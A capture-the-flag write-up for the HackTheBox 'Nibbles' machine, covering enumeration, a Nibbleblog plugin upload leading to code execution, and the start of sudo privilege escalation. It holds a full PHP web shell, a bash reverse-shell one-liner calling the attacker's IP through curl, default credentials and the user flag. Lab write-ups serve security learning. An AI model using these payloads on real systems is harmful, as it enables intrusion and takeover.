# HTB - Nibbles

**IP Address:** `10.129.96.84`  
**OS:** Linux  
**Difficulty:** Easy  
**Tags:** #Linux #Apache #Nibbleblog #FileUpload #WebShell #SudoMisconfig #PrivilegeEscalation

---
## Synopsis

Nibbles is an easy Linux machine where enumeration reveals a hidden Nibbleblog instance under `/nibbleblog/`. The blog exposes sensitive files in `content/private/`, allowing username disclosure and confirmation of the CMS version. Valid admin credentials grant access to the vulnerable `My image` plugin, which allows arbitrary file upload and code execution. A reverse shell lands directly as user `nibbler`, and privilege escalation is achieved via a `NOPASSWD` sudo rule on a user-writable script (`/home/nibbler/personal/stuff/monitor.sh`), resulting in root access.

---
## Skills Required

- Basic Linux and web enumeration (`nmap`, `curl`, directory fuzzing)
- Reading exposed web config/XML data for credential intelligence
- Basic PHP web shell and reverse shell handling
- Basic `sudo` privilege escalation enumeration

## Skills Learned

- Chaining weak web exposure (`Index of` + private files) into authenticated compromise
- Handling PHP payload compatibility issues on older runtimes (PHP 5.6)
- Exploiting path-specific `NOPASSWD` sudo entries safely and reliably

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.96.84
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.96.84 -oG allPorts
```



Extract the open ports:

```bash
extractPorts allPorts
```



Open ports:

`22,80`

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,80 10.129.96.84 -oN targeted
cat targeted
```



Key findings:
- `22/tcp` -> OpenSSH 7.2p2
- `80/tcp` -> Apache 2.4.18

---
## 2. Service Enumeration

### 2.1 Root Page and Hidden Path

Enumerate the web root to see what is exposed on port 80:

```bash
curl -i http://10.129.96.84/
```

The page returns `Hello world!` and an HTML comment pointing to `/nibbleblog/`.



---
### 2.2 Nibbleblog Discovery and Version

Confirm the CMS path and read any version metadata shipped with the app:

```bash
curl -i http://10.129.96.84/nibbleblog/
curl -i http://10.129.96.84/nibbleblog/README
```



Confirmed:
- Nibbleblog instance (`Nibbles - Yum yum`)
- Version `v4.0.3 (Coffee)`

---
### 2.3 Directory and Sensitive File Exposure

Fuzz common paths and inspect exposed private content for usernames or secrets:

```bash
ffuf -u http://10.129.96.84/nibbleblog/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt -fc 404 -t 50
curl -i http://10.129.96.84/nibbleblog/content/private/
curl -i http://10.129.96.84/nibbleblog/content/private/users.xml
```

Important findings:
- `admin.php` exposed
- Directory listing enabled in `content/private`
- `users.xml` discloses valid username: `admin`







---
## 3. Foothold

### 3.1 Admin Access to Nibbleblog

Use the recovered credentials against the admin panel (browser login at the path below):

```bash
curl -i http://10.129.96.84/nibbleblog/admin.php
```

`/nibbleblog/admin.php`



with:
- Username: `admin`
- Password: `nibbles`




---
### 3.2 RCE via My Image Plugin Upload

In `Plugins` -> `My image`, upload a PHP payload as the plugin image. Commands can be run via:

`/nibbleblog/content/private/plugins/my_image/image.php?cmd=<command>`

> Note: on this target (PHP 5.6), payload syntax must be PHP 5.6-compatible.

```php
<?php
$cmd = isset($_GET['cmd']) ? $_GET['cmd'] : 'id';
echo "<pre>";
system($cmd);
echo "</pre>";
?>
```







---
### 3.3 Reverse Shell and User Flag

Start a listener, then trigger a reverse shell from the uploaded web shell:

```bash
nc -lvnp 443
```

Trigger from web shell:

```bash
curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.15.206/443 0>&1'" \
"http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php"
```

Post-connection:

```bash
whoami
cat /home/nibbler/user.txt
```

Result:
- `whoami` -> `nibbler`
- `user.txt` -> `2bfb8b9f6a59b1a0a3f6028a25ebfd22`



---
## 4. Privilege Escalation

### 4.1 Sudo Rule Discovery

Unpack any user archives and inspect `sudo` permissions and the referenced script:

```bash
unzip /home/nibbler/personal.zip
sudo -l
ls -la /home/nibbler/personal/stuff/monitor.sh
```

Key findings:
- `(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh`
- Script is writable by `nibbler`

